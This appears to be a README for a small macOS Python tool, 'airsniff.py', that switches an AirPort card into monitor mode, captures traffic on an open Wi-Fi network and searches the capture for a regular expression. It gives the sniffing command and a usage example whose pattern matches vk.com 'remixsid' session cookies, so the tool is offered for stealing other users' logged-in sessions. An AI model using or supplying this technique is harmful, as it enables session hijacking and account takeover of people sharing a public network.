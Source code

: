 This is quite simple script. You can do all this stuff manually without the script.

It uses Airport Extreme card for grab your pattern from wireless traffic.

It can be used **only in open Wi-Fi network**.

#### How it works: 

* Turn Airport card into monitor mode on selected channel.

```sudo "/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport" en0 sniff 10```
Where en0 - Aiport card, 10 - channel. It will write dump in .cap file localted in /tmp/.

To find out what channel number is used on your network hold ```Alt``` and click on wifi icon:

![CHANNEL](http://cdn.zhovner.com/forever/wifi_channel.png)

* In cycle matches your regexp in .cap file and excluding duplicate strings.

#### Usage:

```sudo ./airsniff.py <channel> <"pattern">```

 **channel** — wifi channel

 **"pattern"** — regexp that will grep /tmp/*.cap file. Quotes  required!

Example for vk.com:

```sudo ./airsniff.py 10 "remixsid=[a-z0-9]{53}"```
